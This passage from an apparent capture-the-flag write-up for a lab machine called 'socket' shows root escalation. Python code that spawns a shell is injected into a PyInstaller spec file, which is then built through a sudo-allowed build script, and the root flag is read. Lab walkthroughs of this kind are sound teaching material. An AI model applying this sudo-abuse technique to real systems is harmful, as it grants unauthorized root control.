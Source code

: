 Adding in the code to spawn a shell as root.

```bash
tkeller@socket:~$ vi spec.spec
# -*- mode: python ; coding: utf-8 -*-

import os
os.system('/bin/bash')

block_cipher = None


a = Analysis(
    ['spec'],
    pathex=[],
    binaries=[],
    datas=[],
    hiddenimports=[],
    hookspath=[],
    hooksconfig={},
    runtime_hooks=[],
    excludes=[],
    win_no_prefer_redirects=False,
    win_private_assemblies=False,
    cipher=block_cipher,
    noarchive=False,
)
```

Calling the build process to execute the code in the `spec.spec` file, gaining access to the root shell and thus the root flag.

```bash
tkeller@socket:~$ sudo /usr/local/sbin/build-installer.sh build spec.spec
122 INFO: PyInstaller: 5.6.2
123 INFO: Python: 3.10.6
126 INFO: Platform: Linux-5.15.0-67-generic-x86_64-with-glibc2.35
128 INFO: UPX is not available.
root@socket:/home/tkeller# id
uid=0(root) gid=0(root) groups=0(root)
root@socket:/home/tkeller# cat /root/root.txt
```

